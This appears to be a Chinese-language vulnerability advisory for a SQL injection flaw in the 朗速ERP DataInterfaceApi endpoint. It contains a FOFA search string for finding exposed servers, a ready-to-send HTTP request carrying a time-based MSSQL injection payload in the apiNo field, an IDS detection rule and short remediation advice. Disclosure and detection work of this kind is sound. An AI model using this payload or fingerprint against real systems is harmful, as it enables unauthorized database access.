

# 朗速ERP DataInterfaceApi 存在SQL注入漏洞

朗速ERP DataInterfaceApi 存在SQL注入漏洞，攻击者可进行sql注入攻击获取数据库信息或者权限。

# 影响版本

朗速ERP

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/Resource/Scripts/Yw/Yw_Bootstrap.js"

POC/EXP：

```
POST /Api/DataInterfaceApi.ashx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Content-Type: application/x-www-form-urlencoded

method=SyncData&repeaterUrl=&data=1&apiNo=1'+end;WAITFOR+DELAY'0:0:5'--+
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"朗速ERP - /Api/DataInterfaceApi.ashx SyncData apiNo 时间盲注 (WAITFOR DELAY)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/Api/DataInterfaceApi.ashx";
        fast_pattern;
    http.content_type; content:"application/x-www-form-urlencoded";
    http.request_body;
        content:"method=SyncData";
    http.request_body;
        content:"apiNo=";
        content:"'"; distance:0;
        content:"WAITFOR+DELAY"; distance:0; nocase;
        content:"0:0:5"; distance:0; nocase;
        content:"--"; distance:0;
    metadata:
        service http,
        affected_product "朗速ERP",
        vulnerability_type "Time-based SQL Injection (MSSQL)",
        severity "high";
    classtype:web-application-attack;
    sid:1000777;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
